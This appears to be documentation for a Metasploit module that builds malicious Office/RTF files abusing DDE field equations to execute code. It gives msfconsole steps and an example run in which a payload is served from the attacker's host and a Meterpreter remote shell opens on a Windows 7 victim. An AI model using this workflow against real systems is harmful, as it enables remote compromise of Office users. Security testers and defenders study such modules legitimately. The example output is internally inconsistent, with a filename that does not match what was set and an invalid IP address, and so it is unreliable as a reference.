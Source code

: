 
Module abuses a feature in MS Field Equations that allow an user to execute an arbitrary application.

## Vulnerable Application
All Microsoft Office versions

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/fileformat/office_dde_delivery`
3. Do: `set PAYLOAD [PAYLOAD]`
4. Do: `run`

## Options
### FILENAME
Filename to output, whether injecting or generating a blank one

### INJECT_PATH
Path to filename to inject


## Example

```
msf > use exploit/windows/fileformat/office_dde_delivery
msf exploit(office_dde_delivery) > set FILENAME msf.rtf
FILENAME => /home/mumbai/file.rtf
msf exploit(office_dde_delivery) > set LHOST ens3
LHOST => ens3
msf exploit(office_dde_delivery) > set LPORT 35116
LPORT => 35116
msf exploit(office_dde_delivery) > run
[*] Using URL: http://0.0.0.0:8080/DGADAcDZ
[*] Local IP: http://192.1668.0.11:8080/DGADAcDZ
[*] Server started.
[*] Handling request for .sct from 192.168.0.24
[*] Delivering payload to 192.168.0.24...
[*] Sending stage (205379 bytes) to 192.168.0.24
[*] Meterpreter session 1 opened (192.168.0.11:35116 -> 192.168.0.24:52217)

meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```
